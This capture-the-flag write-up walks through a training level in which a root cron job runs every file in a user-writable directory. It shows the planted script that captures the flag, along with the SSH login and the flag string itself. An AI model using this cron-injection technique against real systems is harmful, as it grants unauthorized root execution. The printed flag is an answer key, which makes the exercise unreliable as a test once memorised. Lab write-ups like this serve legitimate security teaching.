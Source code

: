 # Level05 Solution

## Steps:
1. Connected via SSH: `ssh level05@192.168.16.128 -p 4242`
2. Found a cron job in `/etc/cron.d/openarenaserver`:
   - Command: `cat /etc/cron.d/openarenaserver`
   - Content:
     ```
     */2 * * * * root /opt/openarenaserver/script.sh
     ```
   - This runs every 2 minutes as root.
3. Analyzed the script `/opt/openarenaserver/script.sh`:
   - Code:
     ```bash
     #!/bin/bash
     for i in /opt/openarenaserver/* ; do
         (ulimit -t 5; bash -x "$i")
         rm -f "$i"
     done
     ```
   - It executes every file in `/opt/openarenaserver/` with `bash -x` and then deletes it.
4. Exploited the cron job:
   - Created a malicious script in `/opt/openarenaserver/`:
     ```bash
     echo 'getflag > /tmp/flag05.txt' > /opt/openarenaserver/exploit.sh
     chmod +x /opt/openarenaserver/exploit.sh
     ```
   - Waited 2 minutes for the cron job to execute the script.
5. Retrieved the flag:
   - Command: `cat /tmp/flag05.txt`
   - Output: `viuaaale9huek52boumoomioc`

## Notes:
- The directory `/opt/openarenaserver/` is writable by the user `level05`.
- The cron job runs as root, so any script placed in that directory is executed with root privileges.
- The script is executed and then deleted, so we must write the output to a file (e.g., `/tmp/flag05.txt`).

## Tools used:
- `cat` (to view files)
- `echo` and `chmod` (to create the exploit script)
- Cron job exploitation

## Vulnerability:
- Misconfigured cron job that executes arbitrary files in a writable directory.